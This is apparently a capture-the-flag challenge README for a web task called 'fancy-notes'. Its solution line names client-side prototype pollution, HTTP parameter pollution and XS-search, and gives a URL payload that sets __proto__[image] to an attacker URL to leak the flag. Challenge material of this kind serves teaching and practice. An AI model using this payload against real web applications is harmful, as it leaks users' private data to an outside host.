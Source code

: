 # fancy-notes
**Category:** Web
**Difficulty:** Medium-Hard
**Author:** downgrade

## Description

Your typical note taking app, but this time its fancy! Share your coolest notes with the admin, and if they're cool enough, maybe he'll give you a special prize.

## Distribution

fancy-notes-dist.zip

## Solution

Client side prototype pollution + http parameter pollution + xs search. `http://localhost:1337/fancy?q=idekctf{&__proto__[image]=x&__proto__[image]=http://<attacker_url>/success`
